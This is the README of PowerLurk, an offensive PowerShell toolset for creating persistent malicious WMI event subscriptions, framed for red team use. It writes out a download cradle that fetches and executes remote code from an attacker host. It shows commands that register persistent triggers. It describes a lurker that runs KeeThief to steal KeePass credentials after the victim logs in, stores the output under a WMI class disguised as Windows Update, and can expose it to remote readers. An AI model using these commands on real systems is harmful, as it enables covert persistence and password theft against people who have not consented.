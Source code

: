 # PowerLurk

PowerLurk is a PowerShell toolset for building malicious WMI Event Subsriptions. The goal is to make WMI events easier to fire off during a penetration test or red team engagement. Please see my post 'Creeping on Users with WMI Events: Introducing PowerLurk' for more detailed information: https://pentestarmoury.com/2016/07/13/151/

To use PowerLurk, you must import the PowerLurk.ps1 module into your instance of PowerShell. This can be done a couple of ways:

Import locally

```PS> powershell.exe -NoP -Exec ByPass -C Import-Module c:\\temp\\PowerLurk.ps1```

Download Cradle

```PS> powershell.exe -NoP -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Get-WmiEvent"```

## Get-WmiEvent

By default, Get-WmiEvent queries WMI for all __FilterToConsumerBinding instances and associated __EventFilter, and __EventConsumer instances. 
Objects returned can be deleted by piping to Remove-WmiObject.

Return all active WMI event objects with the name 'RedTeamEvent'

```Get-WmiEvent -Name RedTeamEvent```

Delete 'RedTeamEvent' WMI event objects

```Get-WmiEvent -Name RedTeamEvent | Remove-WmiObject```

## Register-MaliciousWmiEvent

This cmdlet is the core of PowerLurk. It takes a command, script, or scriptblock as the action and a precanned trigger then creates the WMI Filter, Consumer, and FilterToConsumerBinding required for a fully functional Permanent WMI Event Subscription. A number of WMI event triggers, or filters, are preconfigured. The trigger must be specified with the -Trigger parameter. There are three consumers to choose from, PermanentCommand, PermanentScript, and LocalScriptBLock. Example usage:

Write the notepad.exe process ID to C:\temp\log.txt whenever notepad.exe starts

```Register-MaliciousWmiEvent -EventName LogNotepad -PermanentCommand “cmd.exe /c echo %ProcessId% >> c:\\temp\\log.txt” -Trigger ProcessStart -ProcessName notepad.exe```

Cleanup Malicious WMI Event

```Get-WmiEvent -Name LogNotepad | Remove-WmiObject```

## Add-KeeThiefLurker

creates a permanent WMI event that will execute KeeThief (See @Harmj0y's KeeThief at https://github.com/adaptivethreat/KeeThief) 4 minutes after the 'keepass' process starts. This gives the target time to log into their KeePass database. 

The KeeThief logic and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated switches; however, this is optional as
defaults are set. Example usage:

Add KeeThiefLurker event using WMI class storage 

```Add-KeeThiefLurker -EventName KeeThief -WMI```

Query custom WMI class

```Get-WmiObject -Namespace root\software win32_WindowsUpdate -List```

Extract KeeThief output from WMI class

```[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($(Get-WmiObject -Namespace root\software win32_WindowsUpdate -List).Properties['Output'].value))```

Cleanup KeeThiefLurker

```Remove-KeeThiefLurker -EventName KeeThief -WMI```
